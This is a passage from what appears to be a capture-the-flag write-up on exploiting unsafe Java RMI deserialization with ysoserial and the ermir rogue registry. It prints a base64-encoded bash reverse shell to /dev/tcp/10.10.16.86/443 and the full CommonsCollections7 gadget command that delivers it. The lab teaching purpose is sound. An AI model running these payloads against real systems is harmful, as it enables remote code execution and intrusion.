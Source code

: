 So now we can access the reconfigure page, next up we'll start exploiting the RMI redirection to execute a reverse shell. 

#### Abusing RMI redirection

Before we can exploit this we'll need to download and/or install two tools. First of all we need [ysoserial](https://github.com/frohoff/ysoserial) to generate our unsafe java object deserialization payloads. This one we can just download and put in any directory. Next up we need an [ermir](https://github.com/hakivvi/ermir) an Evil/Rogue RMI Registry, it exploits unsecure deserialization on any Java code calling standard RMI methods on it (list()/lookup()/bind()/rebind()/unbind()).

Pull the Ermir repo but also install ermir we can do this with rake install or easier use the ruby gems

```bash
 gem install ermir
```

Now that we have all the tools installed I'll explain how ermir works. Ermir is a CLI gem, it comes with 2 CLI files ermir and gadgetmarshal. Ermir is the actual gem and the latter is just a pretty interface to GadgetMarshaller.java file, which rewrites the gadgets of Ysoserial to match MarshalInputStream requirements. The output should be then piped into ermir or a file, in case of custom gadgets use MarshalOutputStream instead of ObjectOutputStream to write your serialized object to the output stream.

So we run would theoretically run ermir like so, you feed it your **GadgetMarshaller's** payload using ysoserial.

```bash
java GadgetMarshaller.java ysoserial-all.jar CommonsCollections7 "commands" --listen 0.0.0.0:9000 --pipe
```

So now we have our command structure next up we need to create our reverse shell commands.

```bash
echo -n '/bin/bash -l > /dev/tcp/10.10.16.86/443 0<&1 2>&1' | base64

```

This command gave us the following B64 encoded string.
```
L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTYuODYvNDQzIDA8JjEgMj4mMQ==
```

Next we run our GadgetMarshaller with our reverse shell command like so:

```bash
java GadgetMarshaller.java ../../../ysoserial-all.jar CommonsCollections7 "bash -c {echo,L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTYuODYvNDQzIDA8JjEgMj4mMQ==}|{base64,-d}|{bash,-i}" | ermir --listen 0.0.0.0:9000 --pipe
```

![Ermir running](/assets/img/RegistryTwo/RegistryTwo_20.png)

